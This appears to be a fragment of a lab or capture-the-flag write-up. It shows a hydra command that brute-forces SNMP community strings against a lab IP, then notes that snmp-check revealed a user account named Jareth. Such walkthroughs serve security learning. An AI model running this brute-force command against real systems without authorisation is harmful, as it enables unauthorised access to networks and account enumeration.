


```
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.36.87 snmp
```

We bruteforced a community string.

Now we can use `snmp-check`


We have discovered Jareth user account.
